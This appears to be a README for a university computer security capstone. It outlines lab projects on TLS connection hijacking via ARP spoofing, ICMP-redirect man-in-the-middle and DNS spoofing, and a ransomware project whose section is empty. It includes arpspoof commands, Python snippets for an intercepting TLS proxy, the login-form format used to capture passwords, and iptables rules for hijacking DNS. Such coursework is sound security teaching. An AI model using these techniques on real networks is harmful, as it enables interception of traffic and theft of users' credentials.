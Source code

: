 # Computer Security Capstone Project

---

## 📌 Table of Contents

- [1. Project 1 - TLS Connection Hijacking](#project-1---tls-connection-hijacking)
- [2. Project 2 - MITM and Pharming Attacks in Wi-Fi Networks](#project-2---mitm-and-pharming-attacks-in-wi-fi-networks)
- [3. Project 3 - Ransomware Propagation and Payload](#project-3---ransomware-propagation-and-payload)
- [4. 測試與觀察結果](#4-測試與觀察結果)

---

## Project 1 - TLS Connection Hijacking

### GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker. 
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```

---

## Project 2 - MITM and Pharming Attacks in Wi-Fi Networks

### GOAL
- Scan IP/MAC addresses of the devices in a Wi-Fi network
- Launch a man-in-the-middle (MITM) attack by using ICMP redirect
- Launch a pharming attack

### STEP1 - Device Address Information Collection
Collect devices information from arp table, and get ethernet ip address of the victim which is under same wifi network.
```cpp
// The required information can be found in /proc/net/arp
// code is in icmp_redirect.cpp
// example:
// IP address       HW type     Flags       HW address            Mask     Device
// 172.20.128.1     0x1         0x2         00:15:5d:86:1e:78     *        eth0
```

### STEP2 - ICMP redirect attack
Analyze an ICMP Redirect packet, craft a fake one, and send it to victim. Make the victim believe that sending packets to 8.8.8.8 via the attacker is a better route.

### STEP3 - DNS Spoofing
Intercept DNS request, analyze the information in the packet, discard it, and send a fake reply back to the victim.
- Intercepts DNS requests using NetfilterQueue
```bash
# Packets to port 53 will be sent to the NFQUEUE numbered 0
# which is configured to be intercepted and processed by our program using the Netfilter Queue (NFQ) library.
system("sudo iptables -F");
system("sudo iptables -A FORWARD -p udp --dport 53 -j NFQUEUE --queue-num 0");
```

---

## Project 3 - Ransomware Propagation and Payload

### GOAL
- 
